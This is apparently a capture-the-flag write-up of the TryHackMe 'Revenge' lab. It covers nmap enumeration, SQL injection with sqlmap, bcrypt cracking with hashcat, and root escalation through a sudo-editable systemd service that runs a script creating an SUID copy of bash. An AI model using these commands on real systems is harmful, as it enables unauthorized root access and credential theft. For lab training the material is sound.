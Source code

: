 ```yaml
---
title: "TryHackMe - Revenge"
author: Nasrallah
description: ""
date: 2023-03-09 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, easy, hashcat, cracking, sqli, sqlmap, service]
img_path: /assets/img/tryhackme/revenge
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Revenge](https://tryhackme.com/room/revenge) from [TryHackMe](https://tryhackme.com). We find a webpage vulnerable to sql injection where we use sqlmap to extract data. With that we get a username and password hash that we crack giving us credentials to ssh into the machine. With the current user we can edit a service file and restart it, so we easily exploit that to run our own script that gives us root.

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.


```terminal
Nmap scan report for 10.10.31.115
Host is up (0.11s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 7253b77aebab22701cf73c7ac776d989 (RSA)
|   256 437700fbda42025852127dcd4e524fc3 (ECDSA)
|_  256 2b57137cc84f1dc26867283f8e3930ab (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Home | Rubber Ducky Inc.
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found two ports, 22 running OpenSSH and 80 running Nginx http web server.

## Web

Let's navigate to the web page.

![](1.png)

This is a website for a wholesaler.

Navigating through the different tabs and pages, we find the that the products page uses numbers to for different products.

![](4.png)

Let's give that url to `sqlmap` and see what happens.

![](2.png)

The target is vulnerable to sql injection and we managed to get system users and password hashes.

# **Foothold**

## Cracking

Let's try cracking the hashes using `hashcat`.

```bash
hashcat -m 3200 hash /usr/share/wordlists/rockyou.txt
```

![](3.png)

We got a hashes, le's ssh to the target

![](5.png)


# **Privilege Escalation**

Let's check our privileges on the system

```bash
server-admin@duckyinc:~$ sudo -l
[sudo] password for server-admin: 
Matching Defaults entries for server-admin on duckyinc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User server-admin may run the following commands on duckyinc:
    (root) /bin/systemctl start duckyinc.service, /bin/systemctl enable duckyinc.service, /bin/systemctl restart duckyinc.service, /bin/systemctl
        daemon-reload, sudoedit /etc/systemd/system/duckyinc.service
```

We see that we can edit duckyinc.service, enable, start and restart.

First, let's create a file that that when executed gives a copy of bash the suid bit

```bash
server-admin@duckyinc:~$ cat /tmp/hack 
cp /bin/bash /tmp/bash ; chmod +s /tmp/bash
```

Now we need to change the `User`, `Group` and `ExecStart` on the service file.

```bash
server-admin@duckyinc:~$ cat /etc/systemd/system/duckyinc.service 
[Unit]
Description=Gunicorn instance to serve DuckyInc Webapp
After=network.target

[Service]
User=root
Group=root
WorkingDirectory=/var/www/duckyinc
ExecStart=/bin/bash /tmp/hack
ExecReload=/bin/kill -s HUP $MAINPID
ExecStop=/bin/kill -s TERM $MAINPID

[Install]
WantedBy=multi-user.target
```

Now we reload the daemon and restart the service.

```bash
/bin/systemctl restart duckyinc.service
/bin/systemctl daemon-reload
```

![](6.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---
